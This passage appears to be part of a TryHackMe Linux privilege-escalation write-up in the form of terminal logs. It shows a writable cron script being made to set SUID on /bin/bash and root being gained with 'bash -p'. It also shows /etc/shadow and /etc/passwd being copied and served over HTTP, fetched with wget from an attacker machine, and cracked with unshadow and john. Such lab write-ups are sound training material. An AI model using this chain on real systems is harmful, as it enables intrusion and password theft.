 ```
ls
snap
root@ip-10-10-67-121:~# cd /home/ubuntu
cd /home/ubuntu
root@ip-10-10-67-121:/home/ubuntu# ls
ls
flag5.txt                                                                                   
root@ip-10-10-67-121:/home/ubuntu# cat flag5.txt                                            
cat flag5.txt                                                                               
THM-383000283                                                                               
root@ip-10-10-67-121:/home/ubuntu# 


```

### What is Matt's password?

```

> Victima
karen@ip-10-10-57-26:~$ cd /home/karen/
karen@ip-10-10-57-26:~$ cat backup.sh 
#!/bin/bash
#cd /home/admin/1/2/3/Results
#zip -r /home/admin/download.zip ./*
chmod u+s /bin/bash #u+s is used give SUID permission


karen@ip-10-10-57-26:~$ chmod 777 backup.sh 

aren@ip-10-10-57-26:~$ bash -p
bash-5.0# id
uid=1001(karen) gid=1001(karen) euid=0(root) groups=1001(karen)
bash-5.0# cd /home/ubuntu
bash-5.0# ls
flag5.txt
bash-5.0# cat flag5.txt
THM-383000283
bash-5.0# cd /tmp
bash-5.0# cat /etc/passwd > passwd
bash-5.0# cat /etc/shadow > shadow

bash-5.0# python3 -m http.server 8080
Serving HTTP on 0.0.0.0 port 8080 (http://0.0.0.0:8080/) ...
10.6.13.236 - - [17/Oct/2024 17:55:25] "GET /shadow HTTP/1.1" 200 -
10.6.13.236 - - [17/Oct/2024 17:55:29] "GET /passwd HTTP/1.1" 200 -




> Kali

wget http://10.10.57.26:8080/shadow
wget http://10.10.57.26:8080/passwd

unshadow passwd shadow > cracked

john cracked -w=/usr/share/wordlists/rockyou.txt

Using default input encoding: UTF-8
Loaded 2 password hashes with 2 different salts (sha512crypt, crypt(3) $6$ [SHA512 128/128 ASIMD 2x])
Cost 1 (iteration count) is 5000 for all loaded hashes
```